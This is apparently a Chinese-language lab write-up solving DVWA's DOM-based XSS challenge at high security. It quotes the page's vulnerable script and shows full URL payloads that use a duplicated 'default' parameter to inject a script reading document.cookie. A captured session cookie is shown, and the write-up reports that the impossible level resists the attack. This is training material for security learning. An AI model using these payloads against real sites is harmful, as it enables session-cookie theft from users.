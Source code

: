 # DOM Based Cross Site Scripting (XSS)

> The developer is now white listing only the allowed languages, you must find a way to run your code without it going to the server.


使用之前在中等難度的解法也 ok

```
default=English&<script>alert(document.cookie)</script>
```

### 觀察

不過這次也有找到新的方式執行 javascript

先來看一下處理選單的 javascript

```bash
<form name="XSS" method="GET">
  <select name="default">
    <script>
      if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(
          document.location.href.indexOf("default=") + 8
        ); // English
        document.write(
          "<option value='" + lang + "'>" + decodeURI(lang) + "</option>"
        );
        document.write("<option value='' disabled='disabled'>----</option>");
      }

      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
    </script>
  </select>
  <input type="submit" value="Select" />
</form>

```
可以發現它先透過 `indexOf` 來擷取 URL 上字串 `default=` 的字串開頭位置 (45)

將它 +8 個字元的長度 (就是 ‘default=’ 的長度 ) 後傳給 location.href.substring 就可以切除字串取想要的部分，也就是指定語言的部分

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68aec075-de28-4bd1-8c0b-6f1cf09e5234/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051803Z&X-Amz-Expires=86400&X-Amz-Signature=61e8f23b61705cb0cda96927ccd37ace93fcf4c8ecf999d3b921d3ca981f949d&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

那我們也許可以試著新增一個同樣的參數來捏照合法參數 🤔

這樣一來後端可能就會只檢查其中一個參數

在原本的 `?default=English` 之前再塞入一個 `?default=English2`

```bash
?default=English2&default=English
```

```bash
http://dvwa.localtest/vulnerabilities/xss_d/?default=English2&default=English
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/44d2d4d6-1c24-4671-b6f4-daad8bd605ab/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051829Z&X-Amz-Expires=86400&X-Amz-Signature=db6440f5782ac8c6df2533a5dbaabc5b0c24886d4646c61f1247ffad4cc15a27&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

👉 成功執行惡意了 javascript，它沒有被經過任何處理，就輸出到頁面上了

前面那段 `?default=English2` 是我們故 `document.location.href.indexOf` 的，它會將 `English2&default=English` 視為原本應該被擷取的 `English` 這組字串

從 console 觀察可以看出表單 js 如何處理 URL 參數，以及如何利用它注入惡意 js
```
document.location.href.substring(
  document.location.href.indexOf("default=") + 8
);

//"English2%3Cscript%3Ealert(1)%3C/script%3E&default=English"
```

```
?default=English<script>alert(document.cookie)</script>&default=English
```

```
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(document.cookie)%3C/script%3E&default=English
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3f6aa90d-f14c-4fac-9633-ce91e7b9d649/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051859Z&X-Amz-Expires=86400&X-Amz-Signature=2841d536a7e25c38ac15613e70b4bda0831c2fffcfe7b98cd832e5e021b58302&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
PHPSESSID=ov64qqshkod7693old2kdk59e3; security=high
```

### impossible

在 impossible 難度下測試無效 😮‍💨

```jsx
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(document.cookie)%3C/script%3E&default=English
```
